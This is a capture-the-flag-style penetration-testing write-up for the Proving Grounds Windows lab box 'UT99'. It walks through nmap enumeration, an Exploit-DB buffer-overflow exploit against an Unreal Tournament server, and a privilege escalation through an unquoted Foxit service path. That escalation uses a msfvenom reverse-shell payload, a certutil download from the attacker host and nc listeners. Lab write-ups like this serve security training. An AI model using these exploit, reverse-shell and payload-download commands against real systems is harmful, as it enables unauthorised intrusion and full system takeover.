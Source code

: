 ```yaml
---
layout: default
title: x007-UT99
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---
```


## x007-UT99

### Abstract
Windows box

### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.



| Server IP Adress | Ports Open |
|------------------|------------|
|  192.168.222.44      | TCP : 21, 80, 443, 3306,6660 (IRCs)     |
|                  | UDP :      |



**Nmap Scan Results:**

Using  :
```sh
nmap -Pn -n -p- --min-rate 4000 --open -sCV 192.168.222.44
```

Result :
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-15 21:37 CEST
Nmap scan report for 192.168.222.44
Host is up (0.030s latency).
Not shown: 65187 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http       Apache httpd 2.4.16 (OpenSSL/1.0.1p PHP/5.6.12)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.16 (Win32) OpenSSL/1.0.1p PHP/5.6.12
|_http-title: Index of /
443/tcp  open  ssl/http   Apache httpd 2.4.16 (OpenSSL/1.0.1p PHP/5.6.12)
|_http-title: Index of /
|_http-server-header: Apache/2.4.16 (Win32) OpenSSL/1.0.1p PHP/5.6.12
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
3306/tcp open  mysql      MySQL (unauthorized)
6660/tcp open  irc        InspIRCd
...
| irc-info: 
|   server: irc.madcowz.localdomain
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 3
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.49.222
|_  error: Closing link: (nmap@192.168.49.222) [Client exited]
6783/tcp open  irc        InspIRCd
...
Service Info: Hosts: localhost, www.example.com, irc.madcowz.localdomain; OS: Windows; CPE: cpe:/o:microsoft:windows

```

**Vulnerability Exploited:**

[Unreal Tournament - Remote Buffer Overflow (SEH)](https://www.exploit-db.com/exploits/16145)

**Vulnerability Explanation:**

Using the exploit from exploit db, we could reach the initial shell access on the machine because the Unreal Tournament Server is not patched.

**Vulnerability Fix:**

Apply the proper patch in order to fix the vulnerability : http://www.unrealadmin.org/forums/showthread.php?t=15616

**Severity:** Critical

**Proof of Concept / Code Here:**

https://www.exploit-db.com/exploits/16145

```bash
perl 16145.pl 192.168.222.44 7778 192.168.49.222 80 
```

With a `nc` waiting we received the initial connection : 

![](attachments/Pasted%20image%2020220515221529.png)

**Local.txt Proof Screenshot**

![](attachments/Pasted%20image%2020220515221707.png)

**Local.txt Contents**
`56231a47be40b1e5f00a00c48bf3fc99` 

### Privilege Escalation

**Vulnerability Exploited:**

[Foxit Reader 7.0.6.1126 - Unquoted Service Path Privilege Escalation](https://www.exploit-db.com/exploits/36390)


**Vulnerability Explanation:**

The application suffers from an unquoted search path issue impacting
the service 'FoxitCloudUpdateService' for Windows deployed as part of Foxit
Reader. This could potentially allow an authorized but non-privileged local
user to execute arbitrary code with elevated privileges on the system. A
successful attempt would require the local user to be able to insert their
code in the system root path undetected by the OS or other security applications
where it could potentially be executed during application startup or reboot.
If successful, the local user’s code would execute with the elevated privileges
of the application.

Using : 

```powershell
sc qc "FoxitCloudUpdateService"
```

We are able to detect where the software is located and that it is run as system at the startup : 

![](attachments/Pasted%20image%2020220515223900.png)

We could confirm that we have the write permission inside this directory : 

![](attachments/Pasted%20image%2020220515224022.png)

We will craft our reverse shell using msfvenom : 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.222 LPORT=80 -f exe > Foxit.exe
```

We could make it available using python : 

```bash
sudo python3 -m http.server
```

And download it from the Windows machine using :
```powershell
certutil -urlcache -f http://192.168.49.222:8000/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```

We could then restart the machine and wait our reverse shell on port 80 (after closing our existing shell) : 

On the windows server : 
```powershell
shutdown /r /t 10
```

On you kali machine : 
```bash
nc -lnvp 80
```

![](attachments/Pasted%20image%2020220515225243.png)

**Vulnerability Fix:**

Update the Foxit Reader software to the latest version.

**Severity:** Critical

**Proof of Concept / Code Here:**

[https://www.exploit-db.com/exploits/36390](https://www.exploit-db.com/exploits/36390)

**Proof Screenshot Here:**

![](attachments/Pasted%20image%2020220515225333.png)

**Proof.txt Contents:**

`b40c5c83006d6bf27ede58e3db6fea3b`

--------

## NOTES : 


Joining the IRC we could list  channel:

![](attachments/Pasted%20image%2020220515215253.png)


We also get the following information : 

```
* Topic for #ut99 is: Fragging since UT99!  Unreal Tournament 99 Game Server UP!  IP: *THIS*  Port: 7778
```


We could found a exploit for the server of Unreal Tournament : 

![](attachments/Pasted%20image%2020220515220152.png)


https://www.exploit-db.com/exploits/16145

```bash
perl 16145.pl 192.168.222.44 7778 192.168.49.222 80 
```


From the user access, we noted an ftp folder containing some software that we could check for VULN

![](attachments/Pasted%20image%2020220515223049.png)

![](attachments/Pasted%20image%2020220515223032.png)

![](attachments/Pasted%20image%2020220515223138.png)

We will have to craft a reverse shell to replace the program in order to receive a session in admin